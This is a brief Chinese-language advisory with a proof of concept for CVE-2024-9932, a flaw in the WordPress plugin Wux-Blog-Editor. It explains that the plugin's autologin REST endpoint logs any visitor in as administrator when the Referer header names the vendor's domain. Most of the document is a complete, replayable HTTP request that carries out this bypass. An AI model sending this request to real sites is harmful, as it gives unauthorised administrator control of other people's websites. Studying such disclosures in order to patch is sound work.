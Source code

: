 # WordPress插件Wux-Blog-Editor存在前台越权漏洞( CVE-2024-9932)

**Wux-Blog-Editor 是在一个地方编辑来自所有不同WordPress网站的帖子和页面的插件，位于 /wp-content/plugins/wux-blog-editor/External_Post_Editor.php 中的 wuxbt_externalAutologin 方法存在前台越权漏洞，只需要传入Referer 为 https://blog.tool.wux.nl/ 即可直接登录管理员账号.**

## poc
```javascript
GET /wp-json/external-post-editor/v2/autologin HTTP/1.1
Host: 127.0.0.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Referer: https://blog.tool.wux.nl/
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: su_webp=1
Connection: close
```

![图片](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202501041355933.webp)

## 漏洞来源

- https://mp.weixin.qq.com/s/FxogQW3DX58JYtWxFfxSIQ